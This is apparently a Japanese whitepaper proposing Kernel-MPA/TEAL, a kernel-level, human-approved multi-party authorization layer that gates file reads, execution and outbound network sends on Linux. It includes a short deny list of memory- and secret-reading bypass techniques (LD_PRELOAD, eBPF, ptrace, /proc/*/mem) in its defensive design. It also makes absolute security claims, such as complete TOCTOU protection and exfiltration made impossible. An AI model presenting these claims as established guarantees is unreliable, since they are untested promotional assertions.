





---

# **Kernel-MPA / TEAL / TEAL-NET**

Human-Gated Zero-Trust Execution Architecture

### **― OS 実行制御による 2025 年型攻撃チェーンを構造的に破断するモデル ―**

---

# **目次**


**第1部：全体像と背景**

**1. 序章：なぜ今 Human-Gated Execution が必要なのか**

    1.1 攻撃チェーンの高度化と「内部実行」の無防備性
    1.2 root 権限の構造的リスク
    1.3 データ搾取型攻撃の激増
    1.4 解決すべき課題

**2. 脅威モデルと攻撃チェーンの現実**

    2.1 MITRE ATT&CK に基づく攻撃の標準構造
    2.2 現実の攻撃例の分析
    2.3 現行ツールの限界

**3. 従来のセキュリティ手法の限界**

    3.1 EDR の検知遅延
    3.2 IAM や SSO の限界
    3.3 SASE（Secure Access Service Edge）の限界
    3.4 root の単独操作が最大の問題点

**第2部：提案アーキテクチャ**

**4. Human-Gated Zero-Trust Execution Architecture の全体像**

    4.1 STOP バリアを OS に直接挿入するという思想
    4.2 構成図

**5. Kernel-MPA：カーネルによる STOP バリア**

    5.1 フックポイント一覧
    5.2 ハイブリッド承認モデルとセキュリティ特性
    5.3 LD_PRELOAD・eBPF・ptrace の遮断

**6. TEAL（Trusted Execution & Authorization Layer）**

    6.1 teald（承認サーバ）の内部構造
    6.2 CLI：承認・却下・ステータス確認
    6.3 MPA（Multi-Party Authorization）強度

**7. TEAL に関する懸念事項と対策**

    7.1 The Latency Gap：人間承認の遅延とシステムコールのタイムアウト問題
    7.2 Deadlock（循環参照）リスクと制御プレーン分離
    7.3 Root 権限による LKM（Kernel-MPA）無効化の懸念と対策
    7.4 Break-Glass（緊急モード）に関するセキュリティ懸念と対策
    7.5 カーネルメモリ破壊（Kernel Exploit）とルートキットに対する防御

**8. TEAL-NET：Zero-Trust Outbound Network**

    8.1 outbound の厳格なホワイトリスト
    8.2 攻撃者から見た絶望的状況

**9. ファイル / メモリ読み出しに対する MPA 制御**

    9.1 read() を OS で保護するという革新
    9.2 規制対象
    9.3 読み出しチェーンの破断

**10. PolicyEngine と WORM 管理**

    10.1 ポリシーの分割管理（/etc/teal.d）
    10.2 WORM（Write Once Read Many）化

**第3部：攻撃対応と破断効果**

**11. STOP バリアによる攻撃チェーン破断**

    11.1 read → decrypt → exfiltrate の破断点

**12. 攻撃カテゴリ別の評価**

**13. 防御確率モデル**

**14. 攻撃者の行動制約**

**第4部：実装・運用**

**15. カーネル実装概要（擬似コード）**

**16. teald の内部構造**

    16.1 全体アーキテクチャ
    16.2 モジュール構成
    16.3 RequestQueue の内部構造
    16.4 PolicyEngine の評価プロセス
    16.5 MPA Engine の実装
    16.6 UDS サーバ（Unix Domain Socket Server）
    16.7 永続化ログと監査
    16.8 高可用性（HA）構成
    16.9 まとめ

**17. 承認 UI/UX**

    17.1 UI/UX 設計哲学
    17.2 承認者のワークフロー
    17.3 Web UI（統合管理ポータル）
    17.4 CLI （teal-approve / teal-reject / teal-status）
    17.5 Slack / Teams / LINE WORKS 通知統合
    17.6 承認プロセスの“人間工学（Human Factors）”
    17.7 多人数承認（MPA）時の UI
    17.8 緊急用「ブレイクグラス」UI
    17.9 承認者のミスを防止する仕組み（Anti-Misapproval）
    17.10 ログイン経路とコンテキスト
    17.11 承認 UX の KPI（運用指標）
    17.12 まとめ

**18. ポリシー更新手順**

    18.1 原則（ポリシー更新に求められる基準）
    18.2 ポリシーファイル構造（/etc/teal.d）
    18.3 ポリシー更新ワークフロー（全体図）
    18.4 Step 1：変更草案（Draft）の作成
    18.5 Step 2：ローカルテスト（Dry Run）
    18.6 Step 3：MPA（多人数承認）による更新承認
    18.7 Step 4：WORM領域へのコミット
    18.8 Step 5：teald による自動リロード
    18.9 Step 6：更新後の自動監査
    18.10 ロールバック手順（安全策）
    18.11 緊急時の「ブレイクグラス・ポリシー更新」
    18.12 よくある誤り（Anti-Patterns）
    18.13 ポリシー更新と攻撃者モデル
    18.14 まとめ

**19. Use Case：データ搾取対策**

    19.1 データ搾取攻撃とは
    19.2 データ搾取チェーンと STOP バリアの対応表
    19.3 データ搾取を「構造的に不可能」にする 3 つの仕組み
    19.4 典型的攻撃シナリオでの防御例
    19.5 実際のポリシー構成例（データ搾取対応）
    19.6 組織内データ搾取（内部不正）にも効果絶大
    19.7 結果：データ搾取は“実行不能（Inexecutable）”となる
    19.8 まとめ

**20. Use Case：内部不正防止**

    20.1 内部不正とは何か（攻撃モデルの整理）
    20.2 内部不正防止の最重要ポイント
    20.3 Kernel-MPA/TEAL が内部不正に対して圧倒的に強い理由
    20.4 具体的シナリオ：内部不正が TEAL によって止まる例
    20.5 “内部不正を起こそうという意図”自体を削ぐ効果
    20.6 実運用で推奨される内部不正防止ポリシー例
    20.7 内部不正のリスク低減モデル（数理的評価）
    20.8 まとめ：内部不正を OS レベルで“システム設計レベルで阻止”する

**21. Use Case：ランサムウェア防止**

    21.1 ランサムウェア攻撃チェーン（標準化パターン）
    21.2 TEAL によるランサムウェア阻止ポイント（まとめ）
    21.3 なぜ Kernel-MPA はランサムウェアに強いのか？（技術的理由）
    21.4 ケーススタディ：典型的ランサムウェア vs TEAL
    21.5 ランサムウェア防止ポリシー例
    21.6 ランサムウェア防御効果の定量モデル
    21.7 まとめ：ランサムウェアを“構造的に成立不能”にする
    21.8 ハードウェア・ウォッチドッグによる被害極小化（Deadman Switch）

**22. Use Case：Immutable Infrastructure（システムコアの不変性保護）**

    22.1 システムディレクトリの保護
    22.2 パッケージアップデート時の特権ポリシー（Human-Gated Update）
    22.3 `/tmp` 等共有領域に対する多層防御
    22.4 環境寄生型攻撃（LotL）の無効化
    22.5 究極のFail-Safe：物理層による強制遮断
    22.6 形式手法による数学的安全性保証
    22.7 TEALによる不変性保護の優位性

**23. クラウド / ハイブリッド環境**

    23.1 クラウド固有の脅威モデル
    23.2 Kernel-MPA がクラウドに必要な理由
    23.3 適用パターン別のアーキテクチャ
    23.4 クラウド基盤との連携（IAM / KMS / Logs）
    23.5 クラウドにおける TEAL-NET の威力
    23.6 ハイブリッド環境での運用パターン
    23.7 クラウド脅威に対する Kernel-MPA の具体的防御効果
    23.8 ハイブリッド環境のコンプライアンス／監査要件
    23.9 まとめ：クラウド／ハイブリッドでの Kernel-MPA の価値

**第5部：Appendix**

**24. 図版**

**25. 形式手法による安全性モデル**

    25.1 なぜ Kernel-MPA に形式手法が必要なのか？
    25.2 Kernel-MPA の安全性を形式化する対象
    25.3 Kernel-MPA / TEAL の安全性モデル（形式仕様例）
    25.4 形式手法により保証できる Kernel-MPA の安全性
    25.5 形式手法の導入メリット
    25.6 モデルチェッカーによる安全性と整合性の自動検証
    25.7 まとめ：形式手法は Kernel-MPA の安全性を数学的に保証する

**26. 他の方式との比較**

    26.1 従来方式と Kernel-MPA の位置づけ
    26.2 比較表（全方式）
    26.3 EDR / XDR との比較
    26.4 SELinux / AppArmor との比較
    26.5 IAM / Zero Trust アーキテクチャとの比較
    26.6 Sandbox / VM 隔離技術との比較
    26.7 SASE / Firewall / IDS/IPS との比較
    26.8 KMS / HSM / 暗号基盤との比較
    26.9 Linux Kernel 内部機能（LSM / CAP_SYS_ADMIN）との比較
    26.10 形式手法モデルによる比較（到達不能性での違い）
    26.11 まとめ：Kernel-MPA/TEAL の独自価値

**27. 用語集（Glossary）**

    27.1 Kernel-MPA / TEAL 体系用語
    27.2 セキュリティ・ネットワーク用語
    27.3 カーネル・OS 用語
    27.4 クラウド / K8s 用語
    27.5 形式手法用語
    27.6 その他のセキュリティ用語
    27.7 まとめ

**28. 参考文献・標準規格**

**29. 結論（まとめ）**

** 付録 A：ケーススタディ — 2025年主要脆弱性に対する防御効力分析 **

    A.1 概要
    A.2 攻撃フェーズごとの防御分析
    A.3 防御効力サマリ
    A.4 考察：ポスト・エクスプロイト対策としての有効性

** 付録 B：システムレベル攻撃 vs ユーザーレベル攻撃の防御境界 **

    B.1 防御境界の定義と分析
    B.2 拡張防御：Cryptographic Hardware Watchdog による物理層の統制

** 付録 C：Linux環境における高頻度I/Oの課題と階層的Fast Pathアーキテクチャ

    C.1 Linux特有のログストーム課題とパフォーマンス劣化
    C.2 無条件バイパスの危険性と想定される攻撃
    C.3 解決策：Tier 1 / Tier 2 階層的Fast Pathアーキテクチャ


---

# **第1部：全体像と背景**

---

# **1. 序章：なぜ今 Human-Gated Execution が必要なのか**

## **1.1 攻撃チェーンの高度化と「内部実行」の無防備性**

2024〜2025 年にかけて観測される標的型攻撃は、
「侵入 → 読み出し → 送信 → 破壊」という一連の流れを高速・ステルスに実行する形へと進化している。

* 境界デバイスのゼロデイ
* VPN/VDI の認証突破
* フィッシングによる端末侵害
* クラウド IAM の誤設定
* ソフトウェアサプライチェーン攻撃

いずれも **「内部への侵入」**を起点としており、
既存の防御は侵入までは防げても **侵入後の攻撃実行を止めきれない**。

特に「データ搾取（Exfiltration）」が増加している理由は、
侵入後の **read() と send() が事実上無防備**であるためだ。

---

## **1.2 root 権限の構造的リスク**

Linux のセキュリティは、特権階層に強く依存している。

* root はすべての読み書き・実行・削除が可能
* ファイル権限や ACL を無視できる
* LSM/SELinux を迂回する攻撃手法が存在
* ptrace / eBPF などの内部 API をハイジャック可能

重要なのは、**root 権限は「単独で使用可能」であるという点だ**。

これはすなわち、

> **「root の単独操作が重大事故や内部不正を即座に可能にする」
> という構造的欠陥が Linux に存在する**

ことを意味する。

---

## **1.3 データ搾取型攻撃の激増**

2024〜2025 のランサムウェアは、
“暗号化より先に情報を盗む” 二段階攻撃が標準化している。

* ファイル読み出し
* クレデンシャル収集
* セッションキー盗難
* DBバックアップ盗難
* 圧縮・暗号化
* C2 への送信

この一連のステップは、従来の EDR やログ監視を完全に回避可能である。

---

## **1.4 解決すべき課題**

本ホワイトペーパーが扱う技術課題は以下である。

1. **ファイルの読み出し（read）を人間承認なしに行えないようにする**
2. **OS 内部からのネットワーク送信（exfiltration）をホワイトリスト方式にする**
3. **root 権限を、人間承認のない単独操作では無力化する**
4. **攻撃チェーンの 3 箇所（read / exec / send）に STOP バリアを入れる**

これは従来技術では実現されていなかった領域であり、
Kernel-MPA / TEAL / TEAL-NET の最も重要な革新点である。

---

# **2. 脅威モデルと攻撃チェーンの現実**

## **2.1 MITRE ATT&CK に基づく攻撃の標準構造**

攻撃はほぼ例外なく以下のフェーズを通る：

1. Initial Access（侵入）
2. Privilege Escalation（昇格）
3. Discovery（内部情報探索）
4. Credential Access（資格情報窃取）
5. Collection（データ収集）
6. Command & Control（C2）
7. Exfiltration（送信）
8. Impact（破壊・暗号化）

最重要なのは **Collection → Exfiltration → Impact** の 3 ステップである。

---

## **2.2 現実の攻撃例の分析**

### **● ランサムウェア型（BlackCat, LockBit, Akira）**

* dump 取得
* ファイル読み出し
* 外部送信
* その後に暗号化と破壊

### **● 内部不正（クラウド事故・DB破壊）**

* root 権限を取得後、単独で破壊実行
* 読み出し・削除・設定変更が無制限

### **● Cloud IAM 悪用**

* 誤設定を踏み台に read/list/describe
* 後続の exfiltration
* cloudshell や SSM 経由で内部に侵入

---

## **2.3 現行ツールの限界**

* EDR は read/send を止められない
* SASE は local read/write を制御不能
* IAM は OS プロセスの判断ができない
* root 権限の単独実行は阻止不可能

---

# **3. 従来のセキュリティ手法の限界**

## **3.1 EDR の検知遅延**

EDR（Endpoint Detection & Response）は動的検知が中心であり、
以下のような限界が存在する：

* 暗号化後に検知（もう遅い）
* 読み出し後に検知（もう盗まれている）
* ログ解析は人間の後処理に依存
* 権限昇格済みプロセスには無力

EDR は「事後対策」である。

---

## **3.2 IAM や SSO の限界**

IAM は「人間のログイン権限」を管理するが、
以下は制御できない：

* root 取得後の行動
* プロセスがどのファイルを読むか
* OS 内部 API による資格窃取
* execve / open / unlink / sendmsg の単位での制御

---

## **3.3 SASE（Secure Access Service Edge）の限界**

SASE はネットワーク境界では強力だが、
以下は無防備：

* ローカルの read()
* 内部での暗号鍵読み出し
* tty/terminal の操作
* sudo/root の破壊操作

---

## **3.4 root の単独操作が最大の問題点**

> **root 1 名の行動に STOP バリアがない
> → すべての攻撃チェーンが成立する**

これは Linux の基本設計による制約であり、
本提案の Kernel-MPA で初めて解決可能になる。

---

# **第2部：提案アーキテクチャ**

---

# **4. Human-Gated Zero-Trust Execution Architecture の全体像**

## **4.1 STOP バリアを OS に直接挿入するという思想**

本提案の核心は次である：

> **重大操作の直前にカーネルレベル STOP バリア（MPA 制御）を挿入する。**

STOP バリアは以下の 3 箇所に適用される：

1. **read**（データ取得前）
2. **exec/write/delete**（実行・書換前）
3. **send/connect**（外部送信前）

従来 OS では、この 3 つはすべて無制限だった。

---

## **4.2 構成図**

```
+--------------------------------------------------------------+
|                         Human-Gated OS                       |
|   +---------------------+     +----------------------------+ |
|   |  Kernel-MPA (LSM)   | <-> |  teald (承認サーバ)       | |
|   +---------------------+     +----------------------------+ |
|             ^                           |                    |
|             | /dev/teal                 | UDS                |
|             v                           v                    |
|      Process / File / Net         MPA 承認 (BLS/FIDO2)       |
+--------------------------------------------------------------+
|             TEAL-NET: outbound Zero-Trust Network            |
+--------------------------------------------------------------+
```

---

# **5. Kernel-MPA：カーネルによる STOP バリア**

## **5.1 フックポイント一覧**

Kernel-MPA は以下のシステムコールをフックする：

* **open / openat（read/write開始）**
* **execve（実行）**
* **unlink / rename / truncate**
* **sendmsg / connect（送信）**
* **ptrace / bpf / kprobe（内部 API）**
* **/proc 読み出し**

---

## **5.2 ハイブリッド承認モデルとセキュリティ特性**

Kernel-MPA は、対象プロセスの特性とセキュリティ要件に応じて、以下の 2 つの承認モードを使い分ける。

### **(A) 事前承認モード（Pre-Approval / JIT Ticket）**
**― サーバーアプリ・自動化バッチ・DB向け（可用性優先） ―**

タイムアウトに敏感なシステムプロセス向けのモード。「事前承認トークン」を発行することで、実行時のブロック（Latency）を回避する。

1. **申請 & 承認:** オペレーターが「これから1時間、DBバックアップの読み出しを行う」と申請し、承認を得る。
2. **トークン発行:** カーネルメモリ内の AllowList に、対象操作（Uid/Path/Cmd）を許可するトークンが登録される。
3. **実行:** アプリケーションが操作を実行。カーネルはトークンを照合し、即時許可する。

* **セキュリティ特性:**
    * **メリット:** ゼロレイテンシーでシステム停止リスクがない。
    * **リスク:** トークン有効期間中に、攻撃者が当該プロセスを乗っ取って同じ操作（例：DB読み出し）を実行した場合、カーネルはそれを許可してしまう（**Authorized Token Abuse のリスク**）。

---

### **(B) 同期承認モード（On-Demand / Interactive Verify）**
**― シェル操作・特権メンテナンス向け（セキュリティ強度優先） ―**

人間が介在する操作向けのモード。**「申請内容」と「実際の実行内容」を承認時に突合（Cross-Check）する**ことで、申請後の改ざんやハイジャックを完全に排除する。

1. **事前申請:** 作業者はあらかじめ「`/etc/shadow` を編集する」という作業内容を申請し、チケットIDを発行しておく。
2. **実行:** 作業者がシェルでコマンドを実行する。
3. **カーネル停止 (Trap):** カーネルが操作をフックし、プロセスを一時停止（Block）させる。カーネルは「今、実際に実行されようとしている操作内容」を `teald` へ通知する。
4. **突合承認 (Verification):**
    * 承認者の手元には、**「1.の申請内容（Intent）」** と **「3.のカーネル捕捉内容（Reality）」** が並べて表示される。
    * 承認者は両者に齟齬がない（申請後に攻撃者によってコマンドが書き換えられていない）ことを確認し、承認を実行する。
5. **実行再開:** 承認と同時にプロセスが再開される。

* **セキュリティ特性:**
    * **メリット:** **TOCTOU（Time-of-Check to Time-of-Use）攻撃を完全に防御できる。** たとえ申請後に攻撃者がセッションを奪いコマンドを差し替えても、カーネルが捕捉した「実際のコマンド」が承認者の画面に出るため、承認者は異変に気づき拒否できる。
    * **トレードオフ:** 人間の反応待ち時間（Latency）が発生するため、タイムアウトしやすいアプリケーションには不向き。

---

### **(C) モード選定の基準**

| 比較項目 | (A) 事前承認モード | (B) 同期承認モード |
| :--- | :--- | :--- |
| **対象** | DB, Web, Cron, Backup | SSH, Admin Console, Manual Ops |
| **レイテンシー** | ゼロ（即時実行） | あり（人間待ち） |
| **防御強度** | **高**（ポリシー外は不可） | **最高**（申請と実行の完全一致保証） |
| **攻撃耐性** | トークン有効中の乗っ取りに若干のリスク残存 | 実行直前の最終確認により、すり替え・乗っ取りを排除 |

---

## **5.3 LD_PRELOAD・eBPF・ptrace の遮断**

攻撃者が好んで使う read 迂回手法を根本無効化：

* LD_PRELOAD → execve フック時に拒否
* eBPF read → bpf() に STOP
* ptrace → attach を制御
* /proc/*/mem → read に STOP

---

# **6. TEAL（Trusted Execution & Authorization Layer）**

## **6.1 teald（承認サーバ）の内部構造**

主要コンポーネント：

* UDS サーバ
* RequestQueue（操作要求の管理）
* PolicyEngine
* MPA Engine（承認回数・承認者）
* BLS署名検証・FIDO2 認証
* 永続ログ

teald は stateless に近い設計で、
分散承認（複数サーバ）にも対応可能。

---

## **6.2 CLI：承認・却下・ステータス確認**

* teal-approve
* teal-reject
* teal-status
* teal-list

CLI 操作は FIDO2/WebAuthn で認証され、
各承認には BLS署名が付与される。

---

## **6.3 MPA（Multi-Party Authorization）強度**

TEAL が提供する MPA（Multi-Party Authorization）は、単に「2人以上で承認する」仕組みにとどまらず、

* **どのロールの人間が**
* **何人以上**
* **どの時間帯・どのコンテキストで**

承認した場合に「有効な承認」とみなすかを、**ポリシーレベルで厳密に定義できるフレームワーク**である。

この MPA 強度の設計こそが、Kernel-MPA / TEAL の防御力を決定づける中核となる。

---

### 6.3.1 MPA レベルの基本イメージ

MPA を直感的に理解しやすいように、まずは「レベル」の概念で整理する。

| MPA レベル | 必要な承認者            | 想定ユースケース             |
| ------- | ----------------- | -------------------- |
| Level 0 | 承認不要（自動許可）        | 低リスク操作・開発環境          |
| Level 1 | 1 名の承認者           | テスト環境での設定変更など        |
| Level 2 | 2 名の承認者           | 本番環境の通常メンテナンス        |
| Level 3 | 3 名以上（ロール分離あり）    | クリティカルな本番操作、DB全削除など  |
| Level 4 | n-of-m＋時間制約＋管理者承認 | 最重要資産への操作、法的・監査対象レベル |

ホワイトペーパーで想定している **「Kernel-MPA を最大限活かす本番構成」** では、少なくとも以下を推奨する：

* 重要な読み出し（DB dump 等）: **MPA Level 2 以上**
* 破壊的操作（削除・truncate・スキーマ変更）: **MPA Level 3 以上**
* 「二度と戻らない」操作（WORMポリシー更新等）: **MPA Level 4**

---

### 6.3.2 n-of-m とロール分離

MPA では、単純な「2 人承認」だけでは以下の問題が残る：

* 二人が結託した内部不正
* 同じチーム内の談合
* 上長が部下に「まとめて承認させる」などの圧力

TEAL の MPA は、これを **「n-of-m + ロール分離」** で解決する。

#### (1) n-of-m 方式

* **m 人の候補承認者のうち、少なくとも n 人が承認**した場合にのみ有効
* 例：`n=2, m=5` → 5 人の承認者候補のうち 2 人以上が承認した場合のみ許可

#### (2) ロール分離（Role Separation）

承認者はロール（役割）を持ち、ポリシー側で以下のように指定できる：

* 「オペレーション担当」と「アーキテクト」の両方から 1 名ずつ
* 「システム管理者」と「セキュリティ管理者」の双方が承認
* 「実行者本人」は承認者になれない（セルフ承認禁止）

**例：ポリシー表現（概念的 YAML）**

```yaml
mpa:
  threshold: 2        # 最低 2 名の承認が必要
  roles_required:
    - ops_admin       # 運用管理者ロールから 1 名以上
    - security_admin  # セキュリティ管理者ロールから 1 名以上
  self_approval: false  # 実行者本人は承認不可
```

このように **「人数」と「ロール」を別軸で制約する**ことにより、
単純な 2 人組の共謀や、部署内だけで完結する承認を防ぎ、
組織として健全な「チェック＆バランス」を強制できる。

---

### 6.3.3 時間制約・コンテキスト制約付き MPA

MPA 強度は、「誰が何人承認したか」だけでなく、次の要素も含めて定義されるべきである。

* **時間制約（Time Window）**

  * 例：業務時間内（9:00〜18:00）のみ有効
  * 深夜帯の操作は追加承認が必要

* **有効期限（Approval TTL）**

  * 例：承認後 10 分以内に実施されなければ無効
  * 「数日前に承認したまま放置された承認」を防ぐ

* **リクエストコンテキスト**

  * 対象ホスト・テナント・環境（dev/stg/prod）
  * 操作元（Jump Host 経由か、直接か）
  * 直近の操作履歴（異常頻度操作のブロック）

**例：コンテキスト付き MPA ポリシー（概念例）**

```yaml
mpa:
  level: 3
  threshold: 3
  roles_required:
    - ops_admin
    - security_admin
    - data_owner
  time_window:
    start: "09:00"
    end: "18:00"
  ttl_seconds: 600      # 承認後 10 分以内のみ有効
  environment: "prod"   # 本番環境のみ
```

このように、MPA は **静的な人数制約ではなく、
時間・環境・実行コンテキストを含んだ「動的ポリシー」** として機能する。

---

### 6.3.4 MPA 強度とリスク低減の関係

MPA を導入する目的は、

> **「1 人の悪意または 1 アカウントの侵害で重大事故が起こらない状態」**

を作ることである。
一方で、2 人以上が共謀するリスクをゼロにすることはできないが、
**必要な共謀人数・共謀条件を増やすことで、実務上のリスクを指数関数的に下げる**ことができる。

単純化したモデルとして：

* あるロールの人間 1 人が「悪意を持つ」確率を p とする
* n 人が同時に悪意を持つ必要がある MPA レベル n の場合、
  理論上の同時不正確率は **pⁿ** となる（独立と仮定）

例：

* p = 0.01（100 人に 1 人レベルの悪意者）
* n = 1（MPAなし） → 1% の確率で重大事故が起こり得る
* n = 2（MPA Level 2） → 0.01%
* n = 3（MPA Level 3） → 0.0001%

もちろん現実には完全独立ではないが、

* ロール分離（部署が異なる）
* 地理的分散（拠点が異なる）
* 時間制約（即応が必要）

などの条件を加えることで、**実質的には pⁿ に近いオーダーでリスクを下げられる**。

Kernel-MPA / TEAL の MPA は、
この「n を増やす」「ロールを分離する」「時間を制約する」ための枠組みを、
**OS 実行制御と密結合した形で提供する点**が最大の特徴である。

---

### 6.3.5 緊急時の「ブレイク・グラス」と MPA

現実運用では、

> 障害対応などの緊急時に、
> 「MPA のせいで誰も操作できずにダウンが長期化する」

という事態は避けなければならない。

TEAL の MPA は、**緊急時の「ブレイク・グラス（Break Glass）モード」** を設計に含めることを前提としている。

* 通常時：

  * MPA Level 2〜3 を要求
  * ロール分離必須
* 緊急モード（事前に定義された条件下）：

  * MPA 要件を一時的に緩和（例：1 名 + ワンタイムコード）
  * ただし、**全操作はフルログ＋事後レビュー義務**
  * 緊急モードへの移行／終了自体も MPA 対象

**ポイントは：**

> *障害対応で必要になる「即時性」と、
> セキュリティで求められる「多人数承認」を、
> 「モード切替＋強力なログ・監査」で両立させる*

という設計ポリシーである。

---

### 6.3.6 MPA 強度と実運用のバランス

MPA を強くしすぎれば運用が回らず、
弱くしすぎれば内部不正や侵害リスクが残る。

Kernel-MPA / TEAL は、以下のようなバランス案を推奨する：

* **開発環境**

  * ほとんどの操作は MPA Level 0〜1
  * ごく一部のみ Level 2

* **ステージング環境**

  * 破壊的操作は Level 2
  * 読み出し系は Level 1〜2

* **本番環境（最重要システム）**

  * 読み出し（DB dump, 個人情報）は Level 2
